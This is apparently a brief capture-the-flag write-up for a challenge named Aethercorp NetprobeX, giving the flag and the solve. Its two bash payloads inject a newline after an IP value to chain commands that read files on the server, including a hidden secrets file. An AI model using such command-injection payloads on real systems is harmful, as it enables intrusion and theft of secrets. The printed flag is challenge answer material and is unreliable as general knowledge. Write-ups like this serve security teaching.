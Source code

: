 # Challenge name
Aethercorp NetprobeX

## My solve 
**Flag:** `citadel{bl4ck51t3_4cc3ss_gr4nt3d}`

The website requires us to pass the `%0A` spacer to allow chaining commands. Upon lsing various directories, we pass 
```bash
127.1%0Atail -n +1 /app/mission_briefing.txt
```
Which gives an idea of what we're looking for
Upon futher examination of the system. we finally pass
```bash
127.1%0Atail -n +1 /var/lib/aethercorp/archive/.secrets/blacksite_key.dat
```
which gives us the flag.